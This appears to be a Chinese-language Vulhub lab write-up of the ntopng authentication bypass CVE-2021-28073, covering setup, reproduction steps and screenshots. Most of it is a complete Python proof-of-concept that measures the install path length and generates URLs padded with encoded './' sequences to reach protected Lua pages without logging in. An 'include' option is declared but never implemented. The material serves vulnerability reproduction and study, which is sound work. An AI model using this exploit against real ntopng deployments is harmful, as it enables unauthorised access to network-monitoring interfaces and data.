 # ntopng权限绕过漏洞 CVE-2021-28073

## 漏洞描述

ntopng是监控服务器网络流量的工具，对外提供Web页面。其4.2及以前的版本中存在一处权限绕过漏洞，利用该漏洞可以未授权访问目标任意接口。

参考链接：

- http://noahblog.360.cn/ntopng-multiple-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动ntopng：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`将被跳转到登录页面，默认密码admin/admin，首次登录将会重设密码。

## 漏洞复现

根据参考链接中的方法，编写一个简单的[poc.py](https://github.com/vulhub/vulhub/blob/master/ntopng/CVE-2021-28073/poc.py)。首先，计算出ntopng lua目录的长度：

```
python poc.py --url http://your-ip:3000/ baselength
```

![image-20220228113233978](images/202202281132047.png)

可见，Vulhub靶场中的长度为36。

然后，找到我们想要越权访问的页面或接口，比如`/lua/find_prefs.lua`，正常访问时会302跳转到登录页面，无权限。

使用POC生成越权访问URL：

```
python poc.py --url http://your-ip:3000/ generate -l 36 -p find_prefs.lua
```

![image-20220228113310020](images/202202281133101.png)

访问这个URL，发现可以越权返回正常信息：

![image-20220228113322732](images/202202281133775.png)

后续更深入的利用方法，可以自行修改poc.py利用。

## 漏洞POC

```python
import sys
import requests
import argparse
import logging


def is_ntopng() -> bool:
    response = session.get(base_url, allow_redirects=False)
    return response.status_code == 302 and '/lua/login.lua' in response.headers.get('Location', '')


def get_base_length() -> int:
    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'as_stats.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('as_stats.lua')

    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'get_macs_data.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('get_macs_data.lua')

    return -1


def get_padding_length(path: str):
    padding_length = 255 - 1 - base_length - len(path)
    if padding_length % 2 == 1:
        raise RuntimeError(f'path {path} is not support')

    return int(padding_length / 2)


logging.basicConfig(stream=sys.stderr, level=logging.WARNING)
session = requests.Session()
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='CVE-2021-28073 POC for ntopng.')
    parser.add_argument('-u', '--url', help='base url for ntopng, eg: http://192.168.1.233:3000', metavar='<URL>', required=True)
    parser.add_argument('-v', '--verbose', default=False, action='store_true')

    subparsers = parser.add_subparsers(dest='action')

    baselength_command = subparsers.add_parser('baselength', help='get base path length of ntopng')

    generate_command = subparsers.add_parser('generate', help='generate the authenticate bypass url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-p', '--path', help='lua pathname', metavar='<PATH>', required=True)

    generate_command = subparsers.add_parser('include', help='generate the arbitrary file inclusion url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-i', '--include', help='path to include', metavar='<PATH>', required=True)

    args = parser.parse_args()
    if not args.action:
        parser.print_help()
        sys.exit(1)

    if args.verbose:
        logging.basicConfig(stream=sys.stderr, level=logging.DEBUG)

    base_url = args.url.rstrip('/')

    # check target
    if not is_ntopng():
        raise RuntimeError('No Ntopng detected')

    if args.action == 'baselength':
        base_length = get_base_length()
        sys.stdout.write(f'ntopng install path length: {base_length}\n')
    elif args.action == 'generate':
        base_length = args.length
        path = args.path
        sys.stdout.write(base_url + '/lua/' + '%2e%2f' * get_padding_length(path) + path + '.css\n')
```

